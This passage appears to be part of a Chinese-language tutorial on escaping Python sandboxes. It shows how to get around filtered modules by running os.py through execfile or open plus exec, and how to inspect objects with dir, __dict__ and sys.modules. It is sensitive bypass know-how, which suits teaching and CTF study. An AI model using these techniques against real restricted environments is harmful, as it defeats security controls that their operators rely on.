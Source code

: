 如果把 `sys`、`os`、`reload` 等一系列模块都过滤掉了，使用什么方法来绕过呢？导入模块的过程其实就是把对应模块的代码执行一遍的过程，在知道模块对应路径的情况下，就可以相应地执行它：

```python
In [1]: execfile('/usr/lib/python2.7/os.py')

In [2]: system('pwd')
/usr/lib/python2.7
Out[2]: 0

In [3]: getcwd()
Out[3]: '/usr/lib/python2.7'
```

在 `execfile` 被禁止的情况下，还可以用 `open` 读入文件，并使用 `exec` 来执行相应的代码：

```python
In [1]: code = open('/usr/lib/python2.7/os.py', 'r').read()

In [2]: exec code

In [3]: getcwd()
Out[3]: '/usr/lib/python2.7'
```

# 各类内联函数和属性的使用

## `dir` 和 `__dict__`

`dir` 和 `__dict__` 可以用来查看类或对象下的所有属性信息：

```python
In [1]: class A():
    ...:     def __init__(self):
    ...:         self.a = 'a'
    ...:

In [2]: dir(A)
Out[2]: ['__doc__', '__init__', '__module__']

In [3]: A.__dict__
Out[3]:
{'__doc__': None,
 '__init__': <function __main__.__init__>,
 '__module__': '__main__'}
```

和 `sys.modules` 配合使用获得一个模块的引用：

```python
In [1]: import sys

In [2]: dir(sys.modules[__name__])
Out[2]:
['In',
 'Out',
 '_',
 '_11',
 '_12',
 '_13',
 '_14',
 '_15',
 '_8',
 '__',
 '___',
 '__builtin__',
 '__builtins__',
```